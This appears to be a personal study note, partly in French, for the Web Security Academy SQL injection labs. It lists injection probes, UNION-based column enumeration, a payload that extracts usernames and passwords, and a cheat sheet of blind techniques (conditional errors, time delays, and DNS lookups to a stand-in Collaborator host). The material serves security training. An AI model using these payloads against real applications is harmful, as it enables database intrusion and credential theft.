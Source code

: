 # Web Security Academy

#SQLI

## basic test, Display info, bypass logic:
```
'
value'
'--
'+OR+1=1--
'+OR+1=2--
```

## determining the number of columns
incrementer jusqu'a réponse ok
```
' ORDER BY 3--
' UNION SELECT NULL,NULL,NULL--
```

## determining the type
```
' UNION SELECT 'a',NULL,NULL,NULL--
```
### si une seule colonne de type string:
```
' UNION SELECT username || '~' || password FROM users--
```

## BLIND
- condition, error, delay, OAST


## CHEAT SHEET

## String concatenation
You can concatenate together multiple strings to make a single string.

Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')

## Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)

## Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/

## Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version

## Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'


## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')


## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT sleep(10)

## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')

## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')
Microsoft	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
PostgreSQL	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
MySQL	The following techniques work on Windows only:
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'

